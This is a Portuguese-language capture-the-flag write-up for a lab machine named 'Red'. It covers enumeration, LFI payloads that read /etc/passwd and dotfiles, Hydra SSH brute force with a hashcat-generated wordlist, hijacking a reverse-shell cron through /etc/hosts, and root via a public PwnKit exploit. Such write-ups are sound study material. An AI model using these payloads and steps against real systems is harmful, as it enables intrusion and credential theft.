







# _**Red CTF**_


## _**Enumeração**_
Primeiro, vamos começar com um scan <mark>Nmap</mark>
> ```bash
> nmap -p 0-9999 -A -T5 [ip_address]
> ```


Parece que temos uma página web  
Vamos investigar  
Primeiro, com um scan <mark>Gobuster</mark>
> ```bash
> gobuster dir --url [ip_address] -w ../seclists/Discovery/Web-Content/common.txt
> ```
  

Nada do que já não tenhamos visto visitando o website  
Procurando por informações relevantes, encontramos um endereço para contato  
Podemos utilizar este endereço no arquivo _/etc/hosts_  
Acessando o site no endereço indicado, parece que nada foi alterado  

## _**Ganhando acesso**_
Investigando a URL, temos o seguinte trecho: **index.php?page=home.html**  
Aqui, podemos tentar _File Inclusion_  
Tentativas:
* ?page=../../../../etc/passwd
* include($_GET['page']);
* ?page=php://filter/convert.base64-encode/resource=index.php

Na terceira, temos um retorno em base64  
Traduzindo com ferramenta online, temos o código _.PHP_  
> ```bash
> <?php 
> 
> function sanitize_input($param) {
>     $param1 = str_replace("../","",$param);
>     $param2 = str_replace("./","",$param1);
>     return $param2;
> }
> 
> $page = $_GET['page'];
> if (isset($page) && preg_match("/^[a-z]/", $page)) {
>     $page = sanitize_input($page);
>     readfile($page);
> } else {
>     header('Location: /index.php?page=home.html');
> }
> 
> ?>
Podemos garantir então que:
* Existe remoção de **../ e ./.**
* **preg_match("/^[a-z]/", $page)** permite parâmetros que comecem com letra minúscula

A tentativa da seguinte URL foi feita: ```index.php?page=php://filter/convert.base64-encode/resource=/etc/passwd```  
E temos retorno em base64 do arquivo ```/etc/passwd```!  
A página é vulnerpavel a **LFI**  



Encontramos dois nomes de usuário: **red** e **blue**
Podemos tentar buscar outros arquivos mais sensíveis como:
* /etc/shadow
* /etc/hosts
* config.php
* .ssh/id_rsa
* .bash_history

## _**Ganhando acesso**_
Encontramos algo interessante em _.bash_history_ do usuário **blue**  
> ```bash
> echo "Red rules"
> cd
> hashcat --stdout .reminder -r /usr/share/hashcat/rules/best64.rule > passlist.txt
> cat passlist.txt
> rm passlist.txt
> sudo apt-get remove hashcat -y
> ```

Aqui, temos o seguinte:
* .reminder: É provavelmente um arquivo com uma senha base
* hashcat --stdout ... -r best64.rule: Isso gera várias mutações da senha original com base na regra best64.rule | O output vai para passlist.txt
* Remoção do hashcat

Investigando através da URL o arquivo _.reminder_, temos uma senha!  
Vamos utilizar ela para realizar login via SSH no usuário **blue**  
Parece que não funcionou
Mais algumas tentativas, alterando o usuário e também o login para webthemez, nada  
Até que pensei em realizar o comando na minha própria máquina e ver o que gera
Primeiro, vamos executar o seguinte comando:
> ```bash
> echo "sup3r_p@s$w0rd!" > reminder.txt
> ```
Isso irá ajudar a criar nossa _wordlist_  
Agora, para gerarmos ela, vamos executar o comando:
> ```bash
> hashcat --stdout reminder.txt -r /usr/share/hashcat/rules/best64.rule > passlist.txt
> ```
> 
Feito isso, vamos utilizar esta nova wordlist para realizar _brute_force_ no usuário **blue** com <mark>Hydra</mark>
> ```bash
> hydra -l blue -P ../passlist.txt ssh://[ip_address]
> ```
  

Conseguimos!  
Vamos realizar login via SSH com o usuário **blue**  
Após algum tempo investigando o usuário, isso aconteceu  



Tentando a senha antiga, não temos login!  
Vamos tentar novamente um _brute force_  
Conseguimos a senha novamente  
Agora, verifiquei se havia SUID, tarefas cron e configurações incorretas em arquivos, mas nada de útil  
Enquanto procurava por brechas, o **red** continuou me expulsando do shell  
Toda vez que eu era expulso, eu tinha que usar força bruta para forçar a senha do usuário azul, porque ela havia sido alterada  

Após bastante tempo vasculhando, decidi procurar por alguma pista/ajuda  
Executando o comando ```ps aux | grep red```  
Toda vez que “red” escreve uma mensagem para nós, uma das duas instâncias do _reverse shell_ em execução será substituída por uma nova instância do mesmo comando reverse shell:  



Isso significa que **red** abre uma shell interativa e envie/receba dados para o host redrules.thm, porta 9001  
Existe uma tarefa cron em execução que chama o comando  
Como há duas instâncias do comando reverse shell, podemos ter sorte e o segundo comando pode ser usado para obter um shell como usuário "red"  
Na maioria dos sistemas modernos, se o FQDN resolver para vários IPs e o primeiro IP estiver ocupado com uma instância do comando, instâncias subsequentes do mesmo comando podem tentar se conectar aos outros endereços IP associados ao FQDN  

Tentando com o comando abaixo
> ```bash
> echo "[ip_address] redrules.thm" >> /etc/hosts
> ```
Isso nos permite conectar ao usuário **red** via ```netcat```  

## _**Escalando privilégios**_
Verificando os arquivos com o comando abaixo, temos uma versão vulnerável de ```pkexec```  
> ```bash
> find / -perm -4000 -type f 2>/dev/null
> ```
Porém, o [código original](https://github.com/ly4k/PwnKit) não estava funcionando por problemas de compatibilidade de GLIBC  
Por isso, usamos [essa alternativa](https://github.com/joeammond/CVE-2021-4034)  
Basta realizar o _download_, alterar a última linha para o _path_ certo e executar na máquina-alvo  
Por fim, basta ir atrás das flags como _root_!
